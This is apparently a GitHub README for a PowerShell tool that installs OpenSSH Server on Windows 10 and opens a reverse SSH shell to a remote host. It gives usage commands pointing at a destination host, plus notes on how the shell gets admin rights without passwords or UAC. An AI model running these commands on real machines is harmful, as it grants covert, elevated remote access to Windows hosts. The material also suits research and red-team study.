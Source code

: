 # lol-reverseSSHell.ps1
Living Off the LAN Reverse Shell over SSH

This script is intended to make SSH reverse shells easier to initiate on Windows 10. It will install OpenSSH Server (if missing) on Windows 10 via WindowsCapability. Then it will copy the sshd_config file, SSH private key, and authorized_keys files from the repo's root to the proper locations on the Windows host. Finally it creates a reverse SSH connection. The shell served is CMD.exe by default. Once you're in the cmd.exe cli, you can type 'powershell' to get a PS shell. 

* Please generate NEW SSH KEYs. Use the repo keys only for testing. 

Usage: 
* .\lol-reverseSSHell.ps1 -DestinationUserName `<user>` -DestinationHost 10.10.10.10
* .\lol-reverseSSHell.ps1 -DestinationUserName `<user>` -DestinationHost 10.10.10.10 -DestinationPort 22 -DestinationBindLocalPort 7777 -InstallOpenSSHServer yes 
* get-help .\lol-reverseSSHell.ps1 

* get-help .\lol-reverseSSHell.ps1 -Examples

Remote cmd.exe in a bash terminal via ssh: 
![alt text](https://github.com/ArronJablonowski/lol-reverseSSHell/blob/main/image.png?raw=true)
Remotely executing commands via cmd.exe and powershell:  
![alt text](https://github.com/ArronJablonowski/lol-reverseSSHell/blob/main/image02.png?raw=true)

Unix vs Windows Reverse SSH Shells, and the Interesting Security Implications for Windows Users
-----------------------------------------------------------------------------------------------
Running list as I do research: 
* Unknown usernames are OK - Once you have a reverse connection, Windows does NOT require knowing the username to authenticate to a shell when using keypair authentication. A simple call to localhost and port will connect to a shell under the context of the user that initiated the reverse ssh connection. 
  
  --- Windows Example --- ssh localhost -p `<localport>`  
  --- Unix Example --------- ssh user123@localhost -p `<localport>` 
   
* Admin privleges - Because the shell is ran using an admin PS promt, the shell will have admin privleges without ever needing to know the user's admin password. After a shell has been initiated, there is no passwords or UAC to prevent commands from being ran with elevated privleges. Almost equivlent to a root shell in Unix. Which means you can browse the entire file system and modify system files without permissions issues.  

